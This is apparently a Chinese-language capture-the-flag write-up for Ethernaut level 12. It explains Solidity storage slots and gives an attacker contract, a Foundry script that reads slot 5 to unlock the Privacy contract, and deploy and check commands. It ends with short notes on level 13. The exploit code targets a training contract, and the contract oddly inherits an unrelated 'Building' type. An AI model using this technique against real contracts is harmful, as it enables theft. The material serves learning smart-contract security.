 # Level 12

[The Ethernaut level 12](https://ethernaut.openzeppelin.com/level/12)

这一关的要求是解锁 `Privacy` 合约。

仔细阅读这个合约，解锁 `Privacy` 合约的方式是调用 `unlock` 方法并输入正确的 `_key`。`_key` 值从合约的存储值 `data` 而来。因此，该挑战其实考的是合约的存储布局。

`Privacy` 合约中变量的存储布局：

- `bool public locked` 存储在槽 `0`。
- `uint256 public ID` 存储在槽 `1`。
- `uint8 private flattening`、`uint8 private denomination` 和 `uint16 private awkwardness` 会紧凑地存储在槽 `2`（因为它们总共占 32 位）。
- `bytes32[3] private data` 是一个静态大小的数组，所以它会在存储槽 `3` 开始连续存储，其每个元素占用一个存储槽（即槽 `3`、槽 `4`、槽 `5`）


因此，可以通过 Foundry 的作弊码读取存储槽 `5` 的值，就可以顺利解锁 `Privacy` 合约。

示例代码如下：

```
contract Attacker is Building {
    Privacy level;

    constructor(address level_) {
        level = Privacy(level_);
    }

    function attack(bytes16 _key) public {
        level.unlock(_key);
    }
}
```

还需要一个脚本去部署 `Attacker` 合约并发起攻击，其中读取合约存储槽 `5` 的值

```
address levelAddr = 0x477C9b8Afa15DcF950fbAeEd391170C0eb0534C3;

Attacker attacker = new Attacker(levelAddr);

uint256 levelDataSlotStartIdx = 3;

bytes32 dataInPos2 = vm.load(
    levelAddr,
    bytes32(levelDataSlotStartIdx + 2)
);

bytes16 _key = bytes16(dataInPos2);

attacker.attack(_key);
```

完整代码见：[这里](../../ethernaut/script/level12.s.sol)

Foundry 脚本：

调用脚本部署并发动攻击：
```
forge script script/level12.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

查询是否已解锁
```
cast call 0x477C9b8Afa15DcF950fbAeEd391170C0eb0534C3 \
"locked()(bool)" \
--rpc-url sepolia
```


链上记录：
- [level(`Privacy`)](https://sepolia.etherscan.io/address/0x477C9b8Afa15DcF950fbAeEd391170C0eb0534C3)
- [Attacker](https://sepolia.etherscan.io/tx/0x160FeC247F3578DF771333FB5108352434AE3fAE)
- [attack 交易](https://sepolia.etherscan.io/tx/0xd97d0d2933a94cc266086631dd13d9932a896f928d75616c86e5dbde9b25ce28)



[The Ethernaut level 13](https://ethernaut.openzeppelin.com/level/13)

这一关的要求是通过三个守门员。
- gateOne：msg.sender 和 tx.origin 不想等，这个很容易实现：通过部署一个中间合约去调用。
- gateTwo：要求剩余 gas 为 8191 的整数倍，这个得暴力破解
- gateThres：设计多个转换转换

ps：脚本还在测试中